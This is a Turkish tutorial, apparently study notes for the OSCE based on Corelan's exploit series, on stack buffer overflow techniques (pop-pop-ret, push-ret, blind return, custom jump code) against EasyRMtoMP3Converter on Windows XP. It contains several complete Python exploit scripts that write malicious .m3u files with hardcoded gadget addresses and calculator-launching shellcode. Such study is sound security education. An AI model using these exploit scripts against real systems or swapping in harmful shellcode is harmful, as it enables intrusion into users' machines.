







# Exploit Writing Tutorial Part 2 : Stack Based Overflow - jumping to shellcode

`OS` : Windows XP SP3

`Vulnerable App`: [EasyRMtoMP3Converter](https://web.archive.org/web/20100219221638/http://www.rm-to-mp3.net/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - OSCE Hazırlık 0x06 | Corelan.be Overflow 0x02` : https://www.twitch.tv/videos/699229760

`Video - OSCE Hazırlık 0x07 | Corelan.be Overflow 0x03` : https://www.twitch.tv/videos/700111201

`Source` : https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

Bir önceki yazıda temel olarak `stack overflow` zafiyetinin nasıl tespit edildiğini ve `exploit` edildiğini gördük. Ancak sürekli olarak gelişen `saldırı` teknikleri yanında `savunma` teknikleri de geliştiği için uyguladığımız taktik her koşulda çalışmayabilir veya o taktiğin oluşması için gerekli olan gereksinimlere sahip olamayabiliriz. Bundan dolayıdır ki farklı farklı taktikler geliştirmemiz/öğrenmemiz gerekmektedir.

Bu yazıda da EIP üzerine direk shellcode'un olduğu adresi yazmak veya `jmp esp` gibi bir işlem ile shellcode'a sıçramak dışında başka hangi yöntemler ile shellcode'umuza sıçrayıp çalıştırabiliriz ona bakacağız.

`corelan.be`'nin kendi sayfasında yer alan bazı yöntemler... İlk sırada yer alan `jump (or call)` tekniğini geçen yazıda anlattık.


## `pop ret`

Bu tekniği nasıl anlatabilirim diye düşünürken gene corelan abimizin güzel bir çizimini gördüm :D


Bu yöntemde gene EIP 'ye kadar olan alanımızı dolduruyoruz. Daha sonra EIP üzerine tekniğin adından da anlaşıldığı üzere pop-pop-ret komutlarını giriyoruz. Peki bu komutlar ne yapıyor ?

Mesela `pop ebx, pop eax, ret` diye bir komutumuz olsun. (Hatırlayacak olursanız `pop` komutu  stack içerisinden bir veri çıkarmak için kullanılır.) Burda `pop ebx, pop eax` dediğimiz zaman stack'e en son gönderilmiş 2 değeri sırasıyla bu registerlarımıza yerleştirecektir. Daha sonra gelen `ret` komutu ise stackde bulunan son adresi/komutu çalıştıracaktır. Bizim için önemli olan kısım `ret` komutunun shellcode'umuza gidecek birşeyler yapması. Yani ebx, eax registerlarına bir değer yüklemek bizim işimize yaramayacağı için bunlara yan etki diyoruz.

`NOT:` Stack'in en sonundan kasıt ESP'nin o an gösterdiği konum gibi düşünebiliriz

Bu yan etkilerden kurtulmak içinde `pop ebx, eax` komutumuzdan sonra bu registerlara rastgele birer değer yerleştirmek için 8 byte'lık bir karakter giriyoruz. Yukardaki resme bakacak olursanız eğer EIP registerından sonra yazmış olduğu 8 tane NOP karakteri ebx, eax üzerine yazılacak. Daha sonra ret komutu çalıştığında `jmp esp` komutunu başarıyla çalıştıracak böylece shellcode'umuz çalışmış olacaktır.

Hadi bir de bu tekniği kullanarak kendimiz bir exploit yazalım... Önceki yazıdan zaten `EIP`'ye yazmak için kaç karaktere ihtiyacımız olduğunu bulmuştuk. Hatta `jmp esp` işlemini gerçekleştiren bir adreste bulmuştuk.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b""
nop = b"\x90"*25
pre_esp = b"JUNK"

exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```  

Exploitimiz şu şekilde olacak. Tek eksiğimiz `pop pop ret` yapan bir gadget bulmak.

İkinci seçenek olarak hazır bir gadget bulmak yerine registerları pop eden komutların `opcode`'larını öğrenip onlarıda kullanabiliriz

Immunity Debugger üzerinde programımızı açalım ve `CTRL+S` kısayolunu kullanıp `Find sequence of commands` ekranını açalım. Ve aşağıda yazan komutu girelim ve aratalım.

```
POP R32
POP R32
RET
```

Eğer benim gibi `main` dosyanın içerisinde aratır ve badchar olmayan bir gadget bulamazsanız o zaman `All sequences in all modules` ile deneyebilirsiniz :D



Sonuç olarak bir sürü bişi çıkıyor...



Burdan badchar olmayan bir adres seçebiliriz. Veya daha önce `jmp esp` işlemini bulmuş olduğumuz `MSRMCcodec02.dll` dosyasını açıp orda aratabiliriz.



Ve artık exploitimizi tamamlayabiliriz.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
jmp_esp = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pop_pop_ret = b"\x11\x11\xBF\x01" # pop edi pop esi retn - MSRMCcodec02.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + pop_pop_ret + pre_esp + b"\x90"*8 + jmp_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Exploitimiz hazır :) Afiyet olsun


## `push ret`

Bu kısımda aslında `pop ret` tekniğine çok benzer. Sadece stackden bir değer çıkarmak yerine stack içerisine bir değer eklememiz gerekiyor. Bu eklediğimiz değerde ret komutu ile çalışmış olacak. Yani stack içerisine shellcode'umuzu gösteren birşeyler pushlamamız gerekecek. Bunun içinde biçilmiş kaftan olan `push esp, ret` komutunu arayacağız :D

`MSRMCcodec00.dll` içerisinde bir tane buldum.



Evet lafı çokda uzatmaya gerek yok hemen exploitimizi hazırlayalım.

POP komutları olmadığı için onları atlatmak için kullandığımız 8 byte'lık NOP karakterlerine ihtiyacımız yok. Ayrıca ESP adresini tek komutta return edeceğimiz için jmp esp komutunada ihtiyacımız olmayacak.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
push_ret = b"\xF6\x57\xB8\x01" # push esp  retn - MSRMCcodec00.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + push_ret + pre_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şimdi çalıştıralım...


Ve başarılı bir şekilde çalışmış oldu :)

## `blind return`

Bunda da mantık oldukça basit. EIP üzerine `ret` işlemi yapan bir adres yazdıktan sonra stack içerisine shellcode'umuzun adresini yazacağız. Böylelikle ret komutu çalıştığı zaman o an ESP'nin gösterdiği adresin içerisinde yazan adresi (yani shellcode'un adresi) çalıştırmış olacak.




## `Dealing with small buffers: jumping anywhere with custom jumpcode`

Eğer EIP 'den sonra yazdığımız alan shellcode'umuz için yeterli bir alana sahip değilse o zaman shellcode'umuzu `EIP`'nin üstüne yazmadan önce yazarak stack içerisine yerleştirebiliriz. Şöyle bir şema ile daha iyi anlaşılacaktır.

    [shellcode][ebp][eip][function arguments]

Yani EIP üzerine geriye doğru gitmesini sağlayacak opcode'ları bulup yazarsak ileriye doğru sıçramak yerine geriye doğru sıçrayarak shellcode'u çalıştırmış olacağız.

`NOT`: Tabi burda direk EIP üzerine sub esp,0x5c gibi bir komut yazarsanız ESP 'yi geriye doğru çekecektir ama devamında o alanın çalışması için call esp veya jmp esp gibi bir opcode daha eklemeniz gerekecektir. Bundan dolayı EIP üzerine direk jmp esp işlemini yapan bir adres yazarak  biraz ileriye sıçrayıp, sıçradığımız o alana da çalıştırmak istediğimiz opcode'u yazabiliriz.

Burda bilmemiz gerekn birşey daha var :) Programımızın bizden almış olduğu argüman ilk önce stack içerisinde ayrılmış `buffer` alanına yazılır. Daha sonra buffer içerisindeki bu argüman stack'in yukarısında yer alan `function arguments` için ayrılmış yerede kopyalanır.

    [shellcode][ebp][eip][function arguments]
          |                     ^
          |                     |
          |---------------------|


Yani aslında iki seçenek var. Eğer buffer alanımızdaki değer EIP 'den sonra bir yere kopyalanıyorsa `ESP`'yi arttıracak `opcode`ları bulup yazabiliriz. Veyahut ESP'yi azaltacak bir işlem yazıp geriye doğru gidebiliriz.

Daha iyi anlaşılması açısından bir önceki exploitimiz (push ret methodunda kullandığımız) üzerinden örnek verelim


Stack pointerının gösterdiği yerden sonra benim shellcode'um geliyor. Yani shellcode'un tam başlangıç adresi şuan `0x000FFD50` . Peki şimdi stack içerisinde biraz daha ilerlere gidelim


Ve bingo ! shellcode'umun bittiği ve sonuna eklemiş olduğum `NOP` karakterlerinide geçtikten sonra tekrardan `A` karakterleri ile karşılaştım (`0x00FFDFC`).

Yani `push ret` kısmında yazmış olduğumuz exploit sonrası stack'i şu şekilde düşünebiliriz.

    [buffer][ebp][eip][pre_esp][nop][shellcode][nop][func arg]
      |            |                                     ^
      V            v                                     |
    A*26105   PUSH esp, ret                              |
      |                                                  |
      |--------------------------------------------------|


Sanırım bu kısımda anlaşıldı. custom_jmpcode exploitimizi yazarken önümüzde iki tane yolumuz var.

Şimdi bu anlattıklarımızı bir örnek ile görelim.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

buffer = b"\x90"*40 + calc + b"\x90"*(26109-len(calc)-40)
```

Madem yazdığımız buffer EIP'den sonra bir yere kopyalanıyorsa o zaman bizde o alana sıçramaya çalışalım. Geriye doğru gidip shellcode'un başlangıç adresini bulmaktansa ilerlerde shellcode'un başına sıçramak daha kolay olacaktır.

Bunun için herzamanki gibi önüne biraz `NOP` atıyoruz ki işimizi sağlama almış olalım :D Daha sonra shellcode'umuzu yazdık ve devamınıda gene `NOP` karakterler ile doldurduk. Yani EIP ye kadar olan kısım bu şekilde olacak. Peki bizim için önemli olan `EIP` registerına ne yazacağız ? Yukarda yazmış olduğum `NOT`'u hatırlayacak olursak bir adet `jmp esp` işlemi yapan adrese ihityacım var. (Ki bunu daha önce bulmuştuk)

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

buffer = b"\x90"*40 + calc + b"\x90"*(26109-len(calc)-40)
eip = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pre_esp = b"JUNK"
jump_code = (
        # add esp,
        # add esp,
        # jmp esp
)

exploit = buffer + eip + pre_esp + jump_code

# File path
file = "EasyRMtoMP3Converter/custom_jumpcode.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Evet şu tarz birşey olacak. Şimdi opcode bulalım. Bunun için şu (https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/metasm_shell.rb) araçtan faydalanabiliriz.


    add esp, 0x34 => \x83\xc4\x34
    jmp esp       => \xff\e4

Evet temel olarak opcode'larıda bulduk. `push ret` kısmında `ESP` ile `func arg` (shellcode'un olduğu yer) arasındaki boşluğu atlayacak ve  shellcode'un önündeki `NOP` karakterlere denk gelecek kadar `ESP`'ye ekleme yapacağız. Bu boşluğu hesaplamak ve ESP'ye ne kadar eklemek gerektiğini öğrenmek içi `pre_esp` ile `jump_code` arasında bir `\xcc` ekleyelim ve Immunity Debugger'dan bakalım



ESP ' nin olduğu yer `0x000ffd38` . shellcode ise `0x000ffd78`'de başlıyor. Yani aralarında 64 byte 'lık bi boşluk var. shellcode'umuzun başlangıcında bulunan `NOP` karakterlerde `0x000FFD50` adresinde başlamakta. Yani esp ile arasında 40 byte'lık bir boşluk var. O zaman toplamda 40 byte ile 64 byte arasında bir değer eklememiz gerekecek ESP registerına


### `Exploit`

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*40 + calc  + b"\x90"*(26105-len(calc)-40)
ebp = b"B"*4
eip = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pre_esp = b"AAAA"

jump_code = (
	b"\x83\xc4\x14" # add esp, 0x14
	b"\x83\xc4\x14" # add esp, 0x14
	b"\xff\xe4"     # jmp esp
)

exp = padding + ebp + eip + pre_esp + jump_code

# File path
file = "EasyRMtoMP3Converter/custom_jumpcode.m3u"
# File Create
f = open(file, "wb")
f.write(exp)
f.close()
```


## `mona.py` Kurulumu

https://github.com/corelan/mona/blob/master/mona.py Şu adreste bulunan mona.py dosyasını Windows XP sanal makinemizde `C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands` dizinin altına indiriyoruz.

`!mona config -set workingfolder C:\Documents and Settings\Administrator\Desktop\%p` Komutu ile de aradığımız şeyin çıktısını masaüstünde bir dosyanın içine yaz demiş oluyoruz.
